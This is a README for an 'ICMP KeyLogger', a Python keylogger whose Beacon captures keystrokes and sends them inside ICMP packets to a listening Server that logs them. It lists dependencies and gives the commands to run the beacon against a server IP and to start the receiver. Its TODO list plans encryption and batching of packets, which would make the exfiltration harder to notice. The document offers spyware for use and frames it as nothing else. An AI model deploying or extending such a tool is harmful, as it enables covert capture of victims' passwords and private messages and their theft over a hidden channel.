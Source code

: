 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a basic tool written in python designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```

Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[interface]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.

```py ICMPbeacon.py -i "[interface]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.

```sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]```
